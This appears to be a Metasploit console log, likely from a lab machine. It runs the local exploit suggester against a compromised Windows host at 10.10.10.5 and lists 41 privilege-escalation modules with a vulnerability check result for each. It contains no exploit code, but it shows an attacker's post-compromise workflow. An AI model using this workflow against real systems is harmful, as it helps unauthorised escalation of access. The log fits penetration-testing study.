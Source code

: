 msf6 post(multi/recon/local_exploit_suggester) > options 

Module options (post/multi/recon/local_exploit_suggester):

   Name             Current Setting  Required  Description
   ----             ---------------  --------  -----------
   SESSION                           yes       The session to run this module on
   SHOWDESCRIPTION  false            yes       Displays a detailed description for the available exploits


View the full module info with the info, or info -d command.

msf6 post(multi/recon/local_exploit_suggester) > set session 2 
session => 2
msf6 post(multi/recon/local_exploit_suggester) > [*] 10.10.10.5 - Meterpreter session 2 closed.  Reason: Died

msf6 post(multi/recon/local_exploit_suggester) > set session 3 
session => 3
msf6 post(multi/recon/local_exploit_suggester) > run 

[*] 10.10.10.5 - Collecting local exploits for x86/windows...


msf6 post(multi/recon/local_exploit_suggester) > run 

[*] 10.10.10.5 - Collecting local exploits for x86/windows...
[*] 10.10.10.5 - 184 exploit checks are being tried...
[+] 10.10.10.5 - exploit/windows/local/bypassuac_eventvwr: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms10_015_kitrap0d: The service is running, but could not be validated.
[+] 10.10.10.5 - exploit/windows/local/ms10_092_schelevator: The service is running, but could not be validated.
[+] 10.10.10.5 - exploit/windows/local/ms13_053_schlamperei: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms13_081_track_popup_menu: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms14_058_track_popup_menu: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms15_004_tswbproxy: The service is running, but could not be validated.
[+] 10.10.10.5 - exploit/windows/local/ms15_051_client_copy_image: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms16_016_webdav: The service is running, but could not be validated.
[+] 10.10.10.5 - exploit/windows/local/ms16_032_secondary_logon_handle_privesc: The service is running, but could not be validated.
[+] 10.10.10.5 - exploit/windows/local/ms16_075_reflection: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ntusermndragover: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ppr_flatten_rec: The target appears to be vulnerable.
[*] Running check method for exploit 41 / 41
[*] 10.10.10.5 - Valid modules for session 3:
============================

 #   Name                                                           Potentially Vulnerable?  Check Result
 -   ----                                                           -----------------------  ------------
 1   exploit/windows/local/bypassuac_eventvwr                       Yes                      The target appears to be vulnerable.
 2   exploit/windows/local/ms10_015_kitrap0d                        Yes                      The service is running, but could not be validated.
 3   exploit/windows/local/ms10_092_schelevator                     Yes                      The service is running, but could not be validated.
 4   exploit/windows/local/ms13_053_schlamperei                     Yes                      The target appears to be vulnerable.
 5   exploit/windows/local/ms13_081_track_popup_menu                Yes                      The target appears to be vulnerable.
 6   exploit/windows/local/ms14_058_track_popup_menu                Yes                      The target appears to be vulnerable.
 7   exploit/windows/local/ms15_004_tswbproxy                       Yes                      The service is running, but could not be validated.
 8   exploit/windows/local/ms15_051_client_copy_image               Yes                      The target appears to be vulnerable.
 9   exploit/windows/local/ms16_016_webdav                          Yes                      The service is running, but could not be validated.
 10  exploit/windows/local/ms16_032_secondary_logon_handle_privesc  Yes                      The service is running, but could not be validated.
 11  exploit/windows/local/ms16_075_reflection                      Yes                      The target appears to be vulnerable.
 12  exploit/windows/local/ntusermndragover                         Yes                      The target appears to be vulnerable.
 13  exploit/windows/local/ppr_flatten_rec                          Yes                      The target appears to be vulnerable.
 14  exploit/windows/local/adobe_sandbox_adobecollabsync            No                       Cannot reliably check exploitability.
 15  exploit/windows/local/agnitum_outpost_acs                      No                       The target is not exploitable.
 16  exploit/windows/local/always_install_elevated                  No                       The target is not exploitable.
 17  exploit/windows/local/anyconnect_lpe                           No                       The target is not exploitable. vpndownloader.exe not found on file system                                                                                                                                  
 18  exploit/windows/local/bits_ntlm_token_impersonation            No                       The target is not exploitable.
 19  exploit/windows/local/bthpan                                   No                       The target is not exploitable.
 20  exploit/windows/local/bypassuac_fodhelper                      No                       The target is not exploitable.
 21  exploit/windows/local/bypassuac_sluihijack                     No                       The target is not exploitable.
 22  exploit/windows/local/canon_driver_privesc                     No                       The target is not exploitable. No Canon TR150 driver directory found                                                                                                                                       
 23  exploit/windows/local/cve_2020_0787_bits_arbitrary_file_move   No                       The target is not exploitable. The build number of the target machine does not appear to be a vulnerable version!                                                                                          
 24  exploit/windows/local/cve_2020_1048_printerdemon               No                       The target is not exploitable.
 25  exploit/windows/local/cve_2020_1337_printerdemon               No                       The target is not exploitable.
 26  exploit/windows/local/gog_galaxyclientservice_privesc          No                       The target is not exploitable. Galaxy Client Service not found                                                                                                                                             
 27  exploit/windows/local/ikeext_service                           No                       The check raised an exception.
 28  exploit/windows/local/ipass_launch_app                         No                       The check raised an exception.
 29  exploit/windows/local/lenovo_systemupdate                      No                       The check raised an exception.
 30  exploit/windows/local/lexmark_driver_privesc                   No                       The target is not exploitable. No Lexmark print drivers in the driver store                                                                                                                                
 31  exploit/windows/local/mqac_write                               No                       The target is not exploitable.
 32  exploit/windows/local/ms14_070_tcpip_ioctl                     No                       The target is not exploitable.
 33  exploit/windows/local/ms16_075_reflection_juicy                No                       The target is not exploitable.
 34  exploit/windows/local/ms_ndproxy                               No                       The target is not exploitable.
 35  exploit/windows/local/novell_client_nicm                       No                       The target is not exploitable.
 36  exploit/windows/local/ntapphelpcachecontrol                    No                       The target is not exploitable.
 37  exploit/windows/local/panda_psevents                           No                       The target is not exploitable.
 38  exploit/windows/local/ricoh_driver_privesc                     No                       The target is not exploitable. No Ricoh driver directory found                                                                                                                                             
 39  exploit/windows/local/tokenmagic                               No                       The target is not exploitable.
 40  exploit/windows/local/virtual_box_guest_additions              No                       The target is not exploitable.
 41  exploit/windows/local/webexec                                  No                       The check raised an exception.

[*] Post module execution completed
msf6 post(multi/recon/local_exploit_suggester) >